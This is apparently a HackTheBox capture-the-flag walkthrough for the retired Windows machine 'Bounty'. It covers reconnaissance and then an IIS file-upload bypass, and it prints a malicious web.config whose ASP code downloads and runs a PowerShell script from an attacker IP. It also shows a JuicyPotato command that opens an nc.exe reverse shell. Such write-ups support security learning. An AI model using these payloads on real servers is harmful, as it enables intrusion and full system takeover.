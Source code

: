 ```yaml
---
title: Bounty - HackTheBox Walkthrough
date: 2021-11-09 12:00:00 
categories: [HackTheBox,Windows]
tags: [iss,juicy potato]
img_path: /assets/img/HTB/Bounty/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Bounty` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Tue Nov  2 14:00:56 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.248.27
Nmap scan report for 10.129.248.27
Host is up (0.13s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  2 14:01:16 2021 -- 1 IP address (1 host up) scanned in 20.04 seconds
```

## HTTP Enumeration
The site displays a image of a wizard.

![01-web](01-web.png)

Using `gobuster` we found `transfer.aspx` and `/UploadedFiles`

```console
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.248.27/ -t 100 -x aspx
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.248.27/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              aspx
[+] Timeout:                 10s
===============================================================
2021/11/02 14:03:41 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/UploadedFiles        (Status: 301) [Size: 158] [--> http://10.129.248.27/UploadedFiles/]

===============================================================
2021/11/02 14:05:25 Finished
===============================================================
```

`transfer.aspx` allow us to upload a image.

![02-web](02-web.png)

After submit a png file we can display it going to: `http://10.129.248.27/UploadedFiles/[file-name].png`

![03-web](03-web.png)
# Initial Foothold
Testing some [iis file extensions](https://hahndorf.eu/blog/iisfileextensions.html) to see what kind of file we can upload, we discover that the site allows `.config` if we use this extension we'll be able to [execute commands](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/).

First I tried a basic arithmetic operation `1+2`:

![04-web](04-web.png)

It works, so let's execute a [ASP reverse shell](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html), create `web.config` file and insert into it the next code.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
    Call oS.Run("powershell.exe /c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.89/rev.ps1')",0,True)
%>
-->
```
Copy [Nishang’s Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), uncomment the second line, change the ip and the listener port.

![05-nishang](05-nishang.png)

Upload the web.config using the web form, create a python HTTP Server and visit `http://10.129.248.27/UploadedFiles/web.config`,

![06-shell](06-shell.png)
# Privilage Escalation
`SeImpersonatePrivilege` is enable which means it might be vulnerable to [Juicy Potato](https://github.com/ohpe/juicy-potato/releases)

![07-juicy](07-juicy.png)

Let's upload `nc.exe` and `JuicyPotato.exe` to the victime machine, then execute the next:
```plaintext
.\JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.89 443" -t *
```
We recived a reverse shell and we can read root.txt

![08-root](08-root.png)

That’s it for now guys. Until next time.
